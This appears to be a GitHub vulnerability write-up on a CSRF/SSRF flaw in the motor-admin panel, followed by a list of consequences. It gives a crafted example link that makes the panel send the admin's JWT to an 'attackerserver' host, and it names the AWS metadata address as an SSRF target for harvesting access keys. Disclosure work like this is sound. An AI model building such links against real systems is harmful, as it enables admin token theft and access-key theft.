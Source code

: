 # motoradmin-CSRF
CSRF
The motor-admin panel allows administrators to add custom database queries and save them as API configurations.
These queries are executed via a GET request, including query parameters for configuration, path, etc.
Attackers craft a malicious link pointing to the vulnerable API endpoint.
example: http://victim.com/api/run_api_request?data[Bapi_config_name]=http://attackerserver:port &data[path]=1 
The data[api_config_name] parameter specifies the target server, which in this case is controlled by the attacker.
When the admin clicks the link:
•	The panel sends an HTTP request to the attacker's server (http://attackerserver:port).
•	The request includes sensitive data, such as the JWT token, in headers
 [!admin token](https://github.com/alirezacsp/Zero/blob/main/image.png)
Consequences
This vulnerability has severe security implications, including:
1.	Authentication Token Leakage:
o	The JWT token is sent along with the request, allowing the attacker to impersonate the admin or gain unauthorized access to the application.
o	If the token grants high-privilege access, the attacker can:
	Compromise the entire database.
	Manage administrative functions, including deleting users or modifying sensitive configurations.
o	This breach extends to any system or API reliant on the leaked JWT.
2.	Sensitive Data Exposure:
o	The attacker could redirect the query to their server, logging sensitive data included in the request (e.g., cookies, headers, query parameters).
o	If the JWT token contains sensitive claims (e.g., username, roles, permissions), this information may also be exposed.
3.	Server-Side Request Forgery (SSRF):
o	The attacker could redirect requests to:
	Internal Services: Access internal APIs or resources not exposed to the public.
	Metadata Services (e.g., AWS metadata at http://169.254.169.254): Harvest sensitive environment information such as access keys.
	Exploitation of Internal Systems: Execute further attacks by leveraging SSRF as an entry point.
4.	Chained Attacks:
o	With the leaked token, the attacker can escalate their privileges, potentially gaining access to:
	Additional user accounts.
	Linked external services (e.g., cloud platforms or APIs).
o	If combined with other vulnerabilities, this could lead to complete system compromise.
5.	Legal and Regulatory Implications:
o	The exfiltration of authentication tokens or sensitive data could breach data protection laws like GDPR, HIPAA, or CCPA.
o	The organization could face fines, lawsuits, and mandatory disclosures.


